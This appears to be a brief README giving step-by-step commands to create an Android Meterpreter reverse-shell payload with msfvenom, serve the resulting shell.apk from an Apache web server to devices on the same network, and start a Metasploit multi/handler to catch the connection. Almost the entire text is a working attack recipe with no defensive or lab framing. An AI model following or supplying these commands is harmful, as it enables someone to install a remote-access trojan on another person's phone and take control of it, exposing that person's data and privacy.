 
  Creating a payload for android:
  --------------------------
  
    msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.104 LPORT=4444 R> shell.apk
    
  Starting apache2 server:
  --------------------------
    service apache2 start
    
  Now i can use my computer as a server . 
  
    cp shell.apk /var/www/html/
    
   Now I can download shell.apk by accessing apache server from any device connected with same network . just type http://192.168.0.104 .
   
    
    
  Starting metasploit:
  ---------------------------
  >> use exploit/multi/handler<br>
  >> set payload android/meterpreter/reverse_tcp<br>
  >> show options<br>
  >> set LHOST 192.168.0.104<br>
  >> set LPORT 4444<br>
  >> exploit<br>
  
    
    
 
